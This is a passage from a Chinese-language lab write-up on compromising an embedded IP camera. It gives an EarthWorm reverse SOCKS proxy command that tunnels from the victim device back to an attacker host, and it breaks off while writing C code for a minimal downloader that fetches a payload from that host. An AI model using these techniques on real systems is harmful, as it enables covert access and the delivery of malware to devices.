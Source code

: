   
受害摄像头(192.168.1.64)  
```
./ew -s rssocks -d 192.168.1.125 -e 8888      

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4EuWyvriaTLSKV4YGkwx6cDYYEXRcuZQdGWkrK9BbVU4piaKJ6g0AwibEHg/640?wx_fmt=png&from=appmsg "")  
  
  
攻击机物理机（192.168.31.x）  
  
在上一步我们做了隔离，192.168.1.126 只允许同网段非 192.168.1.97 访问  
  
使用 socks5://192.168.1.125:1080 访问 http://192.168.1.126  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4EbWaqGBKpsz7cZp73LvOsUB7N83zib9gLaSLdVod0XiaJSjIl7No7pnQQ/640?wx_fmt=png&from=appmsg "")  
  
  
尝试用代理访问  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4E9U9DTNK2sBz723beWjNmjzE3G2HdTXAkHcNgfb7XAd8Hp5fc6uHrNw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4EUoApqictCJ0vXBUZG21r8iceiaMGxYdRr9ic6VlaF0LVCbjTzT6ciaJHksA/640?wx_fmt=png&from=appmsg "")  
  
  
成功建立代理  
## 0x04 利用下载器   
> 这部分坑特别多，我耗费了几天才找到解决办法，接下来将展示踩坑过程，我会尽量简洁，忽略小坑  
  
  
通过上面的步骤，我们已经可以完成实际控制，但是直接写入木马或者代理对部分设备本身来说可能有不小的压力，尤其是这种嵌入式设备，我这次测试就被迫重启了好多好多次，每次重启设备上的木马等痕迹就完全清空了  
  
想象一下我们先传输了 MSF 木马，之后利用 meterpreter 传输了代理或者攻击程序，利用了一小会儿设备崩了，重启，一切又回到原样了，于是我们就进入了循环，但问题是，这些循环是人来驱动的，并不工程化，这不是实际攻击实施过程中追求的  
  
**我们更希望这部分内容是工程化的**，而且由于指令集的不同，各种木马程序和代理程序是否能够兼容也是一个巨大的问题  
  
这节我们要介绍一些恶意攻击者常用的思路，也就是先传输小的下载器进去，之后利用下载器下载真正的payload，当然了，其实写入 meterpreter 的本质也是一样的  
  
可能有小伙伴会说，这不难呀，有必要单独说吗？  
  
这里单独拿出来写是因为涉及到下载器编写、跨平台编译等，我们先看一下成型的下载器  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4EiavgTicSQZYFrJSLU2liaLsCkqEQCylBncgtBgbkwHO58iaGou3nweWBWw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4EqibacPgCAcodbJ3vvUuEAVhLUrqYz46o1kSwlUoOnGiarIEtW7K6UnIQ/640?wx_fmt=png&from=appmsg "")  
  
  
wget 和 curl 由于做了很多功能，所以比较大，还不如直接写入一个 ew 了  
### 1. 编写下载器  
  
下面我们来写一个最小的下载器，功能就下载 http://192.168.1.125/a  
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <netdb.h>
#include <sys/stat.h>
#include <sys/types.h>

#define BUFFER_SIZE 4096

int main(void) {
    const char *host = "192.168.1.125";
```